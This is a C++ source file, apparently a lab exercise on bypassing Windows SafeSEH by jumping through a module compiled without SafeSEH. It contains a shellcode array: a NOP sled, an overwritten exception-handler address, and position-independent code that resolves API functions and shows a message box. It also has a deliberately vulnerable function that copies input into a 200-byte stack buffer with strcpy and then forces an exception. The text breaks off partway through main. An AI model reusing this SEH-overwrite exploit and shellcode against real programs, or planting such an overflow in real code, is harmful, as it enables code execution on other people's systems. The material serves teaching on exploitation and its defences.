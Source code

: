 ```C++

//SEH_NOSafeSEH.EXE 
#include"stdio.h" 
#include<string.h> 
#include<windows.h> 
#include <tchar.h>
char shellcode[]= 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x12\x10\x12\x11"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	; 

DWORD MyException(void) 
{    
	printf("There is an exception");    
	getchar();    
	return 1; 
} 

void test(char * input) 
{    
	char str[200];    
	strcpy(str,input);  
	int zero=0;    
	__try    
	{         
		zero=1/zero;    
	}
	__except(MyException())    
	{    

	} 
} 

int _tmain(int argc, _TCHAR* argv[]) 
{    
	HINSTANCE hInst = LoadLibrary(_T("SEH_NOSafeSEH_JUMP.dll"));//load No_SafeSEH module
	char str[200];    
	//__asm int 3    
```